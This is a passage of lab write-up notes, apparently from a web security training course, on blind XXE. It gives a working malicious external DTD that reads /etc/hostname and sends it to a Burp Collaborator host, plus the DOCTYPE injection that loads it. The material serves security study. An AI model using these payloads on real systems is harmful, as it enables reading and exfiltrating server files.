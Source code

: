In the Burp Collaborator client window click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

#### Exploiting blind XXE to exfiltrate data using a malicious external DTD

> This lab has a "Check stock" feature that parses XML input but does not display the result.
>
> To solve the lab, exfiltrate the contents of the /etc/hostname file

Created a malicious payload into a DTD file

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Host the file using a webserver or Burp Collaborator

Intercepted the Check stock request and modified it to refer to the malicious DTD

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

You can poll the Burp Collaborator or view the web server instance for interactions.

You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.
